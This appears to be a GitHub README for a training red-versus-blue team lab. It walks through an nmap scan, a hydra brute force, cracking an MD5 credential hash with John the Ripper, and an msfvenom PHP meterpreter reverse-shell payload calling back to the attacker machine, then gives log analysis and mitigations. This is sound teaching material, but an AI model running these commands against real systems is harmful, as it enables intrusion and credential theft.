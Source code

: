 ## Red vs. Blue Team Project

- **Network Topology**:

  ![](./Images/NetworkDiagram.png)
  - The following machines live on the network address range 192.168.1.0/24:
    - **Kali**: `192.168.1.90`
    - **ELK**: `192.168.1.100`
    - **Target**: `192.168.1.105`

### **Red Team - Security Assessment**

#### **Information Gathering**

Given the target IP address, the first step was to identify which ports are open and which services are running on those ports. I used Nmap to perform a version scan, default script scan, and saved the output to a file.

- **Command Used:**

```bash
	nmap -sC -sV -oN nmap_target 192.168.1.105.png
```
  ![](./Images/nmap_192.168.1.105.png)

- **Running Services"
  - `22/tcp ssh OpenSSH 7.6p1 Ubuntu`
  - `80/tcp http Apache httpd 2.4.29`


After casually browsing through the webserver on port 80, I discovered a hidden directory, company_folders/secret_folder and a list of users.

  ![](./Images/secret_folder.png)

#### **Exploitation**

The secret_folder requires authentication to access. I used hydra to perform a brute force attack.
- **Command Used:**
```bash
	hydra -l ashton -P rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder/
```

  ![](./Images/hydra_result.png)

The secret_folder contained a guide to connecting to the internal webdav server.
- **Credentials:** `ryan:d7dad0a5cd7c8376eeb50d69b3ccd352`
- `dav://192.168.1.105/webdav/`

Ryan user's password was hashed using md5, so I used John the Ripper to crack the hashed password.
- **Command Used:**
```bash
	john --format=raw-md5 hash
```

  ![](./Images/john_result.png)

Now that I have the ability to upload a file onto the server, I generated a PHP reverse meterpreter payload using msfvenom and uploaded it to the webdav server.
- **Command Used:**
```bash
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -o shell.php
```

After successfully uploading the payload, I accessed the payload on the webserver to start a meterpreter session to the listener.

  ![](./Images/webdav_directory.png)
  
  ![](./Images/meterpreter_session.png)



### **Blue Team - Incident Analysis**
  
#### **ELK Stack**
A considerable amount of data is available in the logs. Specifically, evidence of the following was obtained upon inspection:
    - Traffic from attack VM to target, including unusually high volume of requests
    - Access to sensitive data in the `secret_folder` directory
    - Brute-force attack against the HTTP server
    - POST request corresponding to upload of `shell.php`

  - **Identifying Unusually High Volume of Requests**: Logs indicate an unusual number of requests made to the URL `http://192.168.1.105/company_folder/secret_folder/`. The PacketBeat Flow graph from the dashboard shows that the attack began around 17:50. Note that `401 Unauthorized` is the top response and few `200 OK`, `207 Multi-Status`, and `404 Not Found` response status codes.

  ![](./Images/request_count.png)

  ![](./Images/packetbeat_flows.png)

  ![](./Images/HTTP_status_codes.png)

    - From the Blue Team perspective, 4 status codes of `200 OK` after 436,504 `401 Unauthorized` may be concerning. It indicates that the attacker was able to successfully gain credentials and access restricted resources.

  - **Access to Sensitive Data in `secret_folder`**: From the Kibana Discover page, a query for the resource `/company_folders/secret_folder/` also displays that `connect_to_corp_server` file had been accessed.

  ![](./Images/sensitive_data.png)

  - **HTTP Brute Force Attack**: Searching for `url.path: /company_folders/secret_folder/` shows conversations involving the sensitive data. Specifically, the results contain requests from the brute-forcing tool`Hydra`, identified under the `user_agent.original` section:

      ![](./Images/hydra_evidence.png)

  - **WebDAV Connection & Upload of `shell.php`**: The logs also indicate that an unauthorized actor was able to access protected data in the `webdav` directory. The `passwd.dav` and `shell.php` was accessed with `GET` request. After the `shell.php` file was requested, an unknown connection was made from source IP `192.168.1.105` to `192.168.1.90:4444`.

      ![](./Images/webdav.png)

      ![](./Images/shell.png)

#### **Mitigation**

  - Mitigation steps for each vulnerability above are provided below.
    - **High Volume of Traffic from Single Endpoint**
      - Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to denial of service conditions. It is also recommended to set up an alarm to trigger alerts against suspiciously fast series of requests that may be indicative of scanning.
    - **Access to sensitive data in the `secret_folder` directory**
      - The `secret_folder` directory should be protected with stronger authentication. It is also a good idea remove the secret_folder itself from the web server to prevent unauthorized actors from accessing the directory.
    - **Brute-force attack against the HTTP server**
      - Use the combination of stronger password policy, account timeout mechanism, account lockout mechanism, and CAPTCHA which are all good defensive mechanism to prevent brute force attacks against the HTTP server.
    - **POST request corresponding to upload of `shell.php`**
      - File uploads should require authentication. Create a whitelist of acceptable file formats to prevent executable files being uploaded to the server.

### Presentation

A sample slideshow is attached:
- [Report: Red vs. Blue Project] https://docs.google.com/presentation/d/1LOPgsDdWqI1YVW-HfsbMOTmNoviaAGlYJtnKYv28ckY/edit?usp=sharing